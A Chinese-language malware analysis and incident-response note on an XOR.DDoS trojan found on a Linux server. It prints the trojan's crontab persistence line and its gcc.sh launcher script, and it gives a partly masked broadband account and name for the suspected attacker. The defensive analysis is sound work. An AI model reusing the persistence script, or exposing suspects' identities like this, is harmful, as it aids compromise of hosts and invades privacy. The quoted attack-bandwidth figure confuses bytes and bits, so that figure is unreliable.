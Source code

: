 这是我抓到的第一个木马样本，所以给它取了个代号：101。

### 基础分析
1. 篡改crontab
**-bash-4.3# cat /etc/crontab**
```
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root
HOME=/

\# run-parts
01 * * * * root run-parts /etc/cron.hourly
02 4 * * * root run-parts /etc/cron.daily
22 4 * * 0 root run-parts /etc/cron.weekly
42 4 1 * * root run-parts /etc/cron.monthly
\*/3 * * * * root /etc/cron.hourly/gcc.sh
```

2. 程序入口
**-bash-4.3# vi /etc/cron.hourly/gcc.sh**
```
\#!/bin/sh
PATH=/bin:/sbin:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin:/usr/X11R6/bin
for i in `cat /proc/net/dev|grep :|awk -F: {'print $1'}`; do ifconfig $i up& done   
cp /lib/libudev.so /lib/libudev.so.6
/lib/libudev.so.6
```
木马通过crontab创建时间计划任务来实现启动,运行该gcc.sh，该命令启动所有网卡，并拷贝/lib/libudev.so文件到/lib/libudev.so.6并执行该文件。

3. 攻击路径
如果部署了登陆审计平台，或者对方还没来得及清扫犯罪现场，可以看到他的来路：
```
-bash-4.3# last -10
user   pts/3        11X.25.49.200    Mon Jun  6 23:46 - 01:47  (02:01)
```
再根据以上公网IP和时间，可以定位到它的来源是某普通宽带用户。
宽带账号：05919399XXXX@fj
客户名称：危XX

4. 应急清除策略
恢复crontab－>清除gcc.sh －>清除/lib/libudev.so.6 －>查杀进程
一定要注意操作顺序，如果只kill掉进程是没有用的，它已经做到自己复制、重启。


#### XOR.DDoS木马原理
编号101是一款国产的Linux系统的远程控制软件（Linux/XOR.DDoS）。

MalwareMustDie首先在2014年10月曝光了该木马。32位和64位的Linux Web服务器、台式机、ARM架构系统等也容易遭受该木马攻击。

杀毒软件公司Avast在它们的博客中解释了这种新的威胁，该木马可以根据目标Linux系统环境的不同来相应调整安装方式，并安装一个rootkit来躲避杀毒软件的检测。黑客首先通过SSH暴力登录目标Linux系统，然后尝试获得根用户证书。如果成功，则通过一个shell脚本安装该木马，该shell脚本的功能主要包括：主程序、环境检测、编译、解压、安装等。该木马首先通过受害系统的内核头文件来进行兼容性检测，如果成功匹配则继续安装一个rootkit，以此来隐藏木马自身。

此外，它主要针对游戏和教育网站，能够对其发起强有力的DDoS攻击，可以达到每秒1500亿字节的恶意流量。根据内容分发网络Akamai科技发布的一份报告，XOR DDoS僵尸网络每天至少瞄准20个网站，将近90%的目标站点位于亚洲。报告中声称：
“Akamai的安全情报反应小组（SIRT）正在追踪XOR DDoS，这是一个木马恶意软件，攻击者使用它劫持Linux机器并将其加入到僵尸网络，以发起分布式拒绝服务攻击（DDoS）活动。迄今为止，XOR DDoS僵尸网络的DDoS攻击带宽从数十亿字节每秒（Gbps）到150+Gbps。游戏行业是其主要的攻击目标，然后是教育机构。今天早上Akamai SIRT发布了一份安全威胁报告，该报告由安全响应工程师Tsvetelin ‘Vincent’ Choranov所作。”
